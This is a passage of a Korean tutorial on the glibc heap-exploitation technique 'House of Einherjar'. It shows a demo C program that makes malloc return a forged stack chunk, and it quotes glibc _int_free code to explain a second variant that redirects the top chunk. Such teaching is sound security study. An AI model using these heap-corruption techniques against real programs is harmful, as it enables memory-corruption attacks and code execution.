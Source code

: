 ```C
        fprintf(stderr, "fake_chunk->bk : 0x%lx\n", fake_chunk[3]);

        free(ptr2);

        fake_chunk[1] = 0x211; // size

        ptr4 = malloc(0x200);

        fprintf(stderr, "ptr4 address : %p\n", ptr4-2); // ptr4의 헤더가 포함된 주소

        return 0;
}
```

![Alt_text](./house_of_einherjar1_result.png "실습1 결과")

결과를 보면 ptr4의 주소가 fake_chunk의 주소와 똑같이 되었다는 것을 알 수 있다.

즉, ptr4는 fake_chunk의 위치(스택)에 할당되었다.

## [B] : House of Einherjar 두 번째 취약점

두 번째 취약점은 top chunk에 원하는 주소를 넣어 해커가 원하는 주소에 청크를 새로 할당 받는 방법입니다.

두 번째 취약점은 첫번째 취약점의 내용이 포함된 방법입니다.

```C
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s))) // 인접한 청크의 주소를 알아냄
#define chunksize(p)         ((p)->size & ~(SIZE_BITS)) // 청크의 size값을 알아냄
static void _int_free (mstate av, mchunkptr p, int have_lock)
{
    ...
    nextchunk = chunk_at_offset(p, size);	// nextchunk : 인접한 다음 청크(인접한 높은 주소에 있는 청크)의 주소
    ...
    nextsize = chunksize(nextchunk);	// 다음 청크의 size값
    ...
    if (nextchunk != av->top) {
        ...
    }
    /*
    If the chunk borders the current high end of memory,
    consolidate into top
    설명 : 만약, 다음 청크가 top chunk라면 병합.
    **두 번째 house of einherjar 취약점 발생 코드**
    */
    else {
      size += nextsize;
      set_head(p, size | PREV_INUSE);
      av->top = p;	// [B]
      check_chunk(av, p);
    }
    ...
}
```
